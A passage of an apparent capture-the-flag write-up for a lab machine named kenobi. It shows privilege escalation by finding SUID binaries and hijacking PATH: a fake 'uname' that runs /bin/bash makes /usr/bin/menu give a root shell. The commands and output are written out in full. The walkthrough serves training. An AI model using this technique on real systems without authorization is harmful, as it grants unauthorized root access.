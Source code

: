 ```bash
kenobi@kenobi:~$ find / -perm -4000 -type f 2>/dev/null
/sbin/mount.nfs
...
/usr/bin/menu
...
/bin/ping6
```

Running this `menu` command prompted for an option and then output a corresponding status check of the site, network configuration information or the kernel version. I then fed the command through strings to validate that it was shelling out and was pleased to find that it called out to both `curl` and `uname`.

```bash
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :2
4.8.0-58-generic
kenobi@kenobi:~$ strings /usr/bin/menu | egrep 'curl|uname|ifconifg'
curl -I localhost
uname -r
```

With this information I decided to try a PATH hijacking attack by creating an executable binary in the kenobi user's local path which, when ran, would invoke `/bin/bash`. I then overrode the kenobi user's PATH to place its local `~/bin/` directory at the highest priority and attempted to rerun the kernel version `menu` command again.

```bash
kenobi@kenobi:~$ mkdir bin
kenobi@kenobi:~$ echo '/bin/bash' > bin/uname
kenobi@kenobi:~$ chmod +x bin/uname 
kenobi@kenobi:~$ export PATH=~/bin/:$PATH
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :2
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:~# 
```

Success! This elevated me to a root shell and quickly I found the last flag sitting in the `/root/` directory.

```bash
root@kenobi:/# cd /root/
root@kenobi:/root# ls
root.txt
```
